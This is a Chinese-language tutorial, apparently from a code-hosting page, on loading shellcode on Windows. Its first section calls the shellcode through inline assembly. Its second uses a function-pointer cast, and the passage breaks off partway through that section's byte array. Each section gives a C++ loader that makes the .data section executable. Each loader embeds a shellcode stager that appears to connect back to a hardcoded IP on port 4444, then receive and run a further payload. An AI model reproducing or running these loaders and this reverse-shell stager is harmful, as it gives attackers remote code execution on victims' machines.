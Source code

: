 1.内联汇编加载

使用内联汇编只能加载32位程序的ShellCode，因为64位程序不支持写内联汇编

```cpp
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>

//ShellCode部分
unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x07\x01\xc7\x49\x75\xef\x52"
"\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c"
"\x01\xd0\x8b\x48\x18\x8b\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49"
"\x8b\x34\x8b\x31\xff\x01\xd6\x31\xc0\xc1\xcf\x07\xac\x01\xc7\x38"
"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89"
"\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f"
"\x54\x68\xd2\x53\x6e\xfc\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29"
"\xc4\x54\x50\x68\x9c\x13\x41\xc4\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\x2c\x9b\xfc\xa4\x50\x58\xff\xd5\x97\x6a\x10\x56\x57\x68\xb6\x59\xc0"
"\x0e\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\xe8\xd9\xce\x36\xff\xd5\x83\xf8"
"\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68"
"\x9c\xed\x92\x66\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\xe8\xd9"
"\xce\x36\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a"
"\x00\x50\x68\x3e\xba\x17\xa3\xff\xd5\x57\x68\xe6\xfc\xe1\xe2\xff"
"\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xfc\xd3\xf4\x5e\x6a\x00\x53"
"\xff\xd5";

void main() {
    
	__asm {
		lea eax,buf    // 将buf的地址加载到eax寄存器
		call eax  // 使用call指令跳转到eax寄存器指向的地址（即buf），开始执行shellcode
	}
}
```



# 2.使用函数指针加载

如下代码所示，`(void(*)(void))`是一个函数指针类型的强制转换, 该函数指针指向一个没有参数且返回值类型为void的函数，也就是说这行代码将 `buf` 的地址转换为一个函数指针，然后调用该指针所指向的函数，其实这种方法和上述加载方式原理是一样的，只不过这种方法还能用于加载64位的ShellCode

```cpp
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>

//ShellCode部分
unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x07\x01\xc7\x49\x75\xef\x52"
"\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c"
"\x01\xd0\x8b\x48\x18\x8b\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49"
"\x8b\x34\x8b\x31\xff\x01\xd6\x31\xc0\xc1\xcf\x07\xac\x01\xc7\x38"
"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89"
"\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f"
```